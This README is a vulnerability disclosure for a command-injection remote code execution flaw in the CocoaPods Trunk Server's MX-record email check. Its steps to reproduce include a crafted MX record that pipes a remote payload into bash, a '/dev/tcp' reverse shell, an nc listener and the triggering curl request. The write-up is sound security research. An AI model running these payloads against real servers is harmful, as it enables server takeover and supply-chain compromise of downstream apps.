



# CocoaPods-RCE

This repo includes a little bit more deep dive into the research process and thoughts behind the RCE vulnerability found as part of researching and breaking the <a href="https://cocoapods.org/">CocoaPods Package Manager</a>.

The research publication blog post can be read here: 
https://www.evasec.io/blog/eva-discovered-supply-chain-vulnerabities-in-cocoapods


## Research Background
The CocoaPods Trunk Server serves as a centralized repository and distribution platform for CocoaPods, essential libraries, and frameworks used in the Apple Ecosystem, particularly iOS and macOS development. Its primary purpose is to facilitate the seamless sharing and management of these open-source resources.

The developer registration process with the CocoaPods Trunk Server consists of the following steps to ensure platform security:
*	Developers begin by providing their email, name, and account description. 
*	The server then verifies the email's uniqueness and checks if it follows the correct format according to the RFC822 standard (using regular expressions). 
*	Examining the email address domain's Mail Exchanger (MX) records to confirm email validity. 
*	If everything checks out, the developer's account is created, allowing them to access the Trunk server and manage owned CocoaPod packages.


## Versions Tested
The latest trunk.cocoapods.org release (master branch) was tested and validated on the production environment.


## Root Cause
The vulnerability's root cause is the insufficient verification of the email address domain's validation step (during the developer registration process) and the insecure execution of commands. Specifically, an attacker can manipulate the input in such a way that it bypasses the domain's Mail Exchanger (MX) record validation, leading to the ability to inject and execute arbitrary OS commands on the Trunk Server.<br>This represents a severe threat to the platform's security, as it allows unauthorized individuals to potentially compromise the server's integrity, and the confidentiality of the stored data, and disrupt its operations.<br> 
Immediate action is required to address and mitigate this vulnerability to safeguard the CocoaPods Trunk Server from potential attacks and ensure the safety of its users and resources.


## Code Flow
<b><ins>APP/CONTROLLERS/APP_CONTROLLER.RB</b></ins>

The App Controller file defines the Trunk Server API endpoints, including the SessionsContoller, serving via the <b>/api/v1/sessions</b> path.
<br><figcaption>

<br><b><ins>APP/CONTROLLERS/API/SESSIONS_CONTROLLER.RB</b></ins>

To generate a new session, the Session Controller file serves the HTTP POST API endpoint – <b>/api/v1/sessions</b>.

The endpoint processes the user-provided registration details, including the "email”, "name”, and "description” parameters. Then, it calls the <b>Owner.find_or_initialize_by_email_and_name</b> method. 

The function call includes the "email” and "name” parameter values.
<br><br>
 
<br><b><ins>APP/MODELS/OWNER.RB</ins></b></ins>

The Owner Model file defines the <b>find_or_initialize_by_email_and_name</b> method which checks whether the provided email exists. If not, it creates a new Owner Object using the above-mentioned parameters.
<br><br>

As soon as the object is created, and prior to storing it in the Database, the Sequel framework will execute the <b>validate</b> method. This method includes multiple validations, found in the RFC-822 package.

We focused on the execution of the <b>validates_mx_record</b> method, which utilizes the RFC-822 package.
<br><br>

 
<br><b><ins>RFC-822/LIB/RFC822.RB</ins></b></ins>

The Library implements the <b>mx_records</b> method to verify whether the provided domain is valid. Furthermore, it implements an MX Record responsiveness validation using the <b><ins>host</b></ins> command.

The method first compares the entire email address to the defined email Regex pattern – check whether the provided email matches the pattern. If the pattern does not match, the method will return empty and not proceed to the active checks via the <b><ins>host</b></ins> command.

The <b>mx_records</b> method then calls the <b>raw_mx_records</b> method which manipulates the email value – fetches only the domain part (everything after the last ‘@’), and calls the host_mx method using the stripped domain as its’ parameter value.
<br><br>
 
The <b>host_mx</b> method executes an arbitrary OS Command, concatenating it with the user-provided email’s domain.
The final executed command is as follows:
<br><b>`/usr/bin/env host -t MX <DOMAIN>`</b>


## Exploitation
#### <ins>THE STOPPER</ins>
To initiate the exploitation of the vulnerability, we made an HTTP POST request to the <b>/api/v1/sessions</b> API endpoint. In the request body, we supplied a manipulated input.

The main objective was to trigger the MX record validation process, which would ultimately lead to the evaluation and execution of our malicious user input, resulting in the execution of OS commands on the trunk server.

To achieve our goal and establish a fully interactive reverse shell, we had to overcome certain challenges:

* <ins>Lowercase Conversion:</ins> The first challenge stemmed from the fact that the email address provided by the user is converted to lowercase using the <b>owner.rb/normalize_email</b> method. As a result, a simplistic payload like `reef<span>@evasec.io|curl{IFS}evasec.io` would not be effective, as the server would process it in lowercase.<br>
<ins>Note</ins>: The <b>IFS</b> would be converted to <b>ifs</b> and won’t be used as a separator.
* <ins>Regex Pattern Validation:</ins> The RFC822 library functions contain validation using a defined regex pattern. This validation presented a significant obstacle, as a payload such as `reef<span>@evasec.io|{curl,evasec.io}` would not work due to the presence of the following characters that the library would eliminate:
  * `“ “ (space)`
  * `"`
  * `()`
  * `.`
  * `,`
  * `<>`
  * `@`
  * `[]`

#### <ins>THE BREAKTHROUGH</ins>
To finalize our mission we needed to overcome the brick wall we encountered with.<br> We discovered that the `/usr/bin/env host -t MX <DOMAIN>`</ins> command provides an output we can control, allowing us to bypass these challenges.<br>
The output could be harnessed by piping it into a bash command, creating an opportunity for code execution.<br>
<ins>For example:</ins>
<p align="center">/usr/bin/env host -t MX &lt;DOMAIN&gt;<b> | bash</b></p>
 

We manipulated an MX record on our domain, managed via Route53 on AWS.
The MX record contains the following <b>valid</b> string:
<p align="center">10 a||{curl, -s,ht<span>tp://serve.evasecresearch.com/payload.txt}|bash||.com </p></b><br>

<ins><b>Target:</ins></b> The crafted payload was set to be executed during the domain’s validation through the host command.


#### <ins>HIGH-LEVEL EXPLOIT EXPLANATION</ins>
To initiate the Remote Code Execution, we invoked the `POST /api/v1/sessions` API endpoint and the following payload:<br>
<b>`anything<span>@owned.domain|bash`</b><br>
While the domain "owned.domain" represents the maliciously crafted MX record as described above.


#### <ins>STEPS TO REPRODUCE</ins>
1. Prepare Payload Server: Set up a web server to serve the payload.txt file, which contains the code to be executed on the Trunk server.
    * For example:<br>```sh -i >& /dev/tcp/SERVER/1337 0>&1```

2. Create A Malicious MX Record: Generate a new MX record that includes a payload designed to retrieve the prepared payload from step 1 and execute it.
    * For example:<br>
```10 a||{curl, -s,http://WEB_SERVER/payload.txt}|bash||.com```

3. Set Up Reverse Shell Listener: Launch a reverse shell listener, such as netcat (nc), on a publicly accessible port.
    * For example: <br>
```nc -lvp 1337```

4. Execute Reverse Shell: Send an HTTP request to trigger the reverse shell execution, which can be done by using a curl command.
    * ```curl -X $'POST' -H $'Host: trunk.cocoapods.org' -H $'Content-Type: application/json; charset=utf-8' -H $'User-Agent: CocoaPods/1.12.1' --data-binary $'{\"email\":\"name@MX_RECORD_DOMAIN|bash\",\"name\":\"Your Name\",\"description\":null}' $'https://trunk.cocoapods.org/api/v1/sessions'```

 
#### <ins>EXECUTION</ins>




#### <ins>FULL EXPLOITATION VIDEO</ins>

 
## Successful Exploitation Impact
In our research, we have identified a critical security vulnerability within the CocoaPods Trunk Server that enables the execution of arbitrary operating system commands (fully interactive Remote Code Execution). 

If an unauthorized threat actor compromises the server, he/she could potentially introduce malicious code into widely-used libraries. This could lead to severe security vulnerabilities in countless iOS and macOS applications that rely on these compromised CocoaPods. 

Additionally, the threat actor could manipulate pod specifications, disrupt the distribution of legitimate libraries, or cause widespread disruption within the CocoaPods ecosystem.
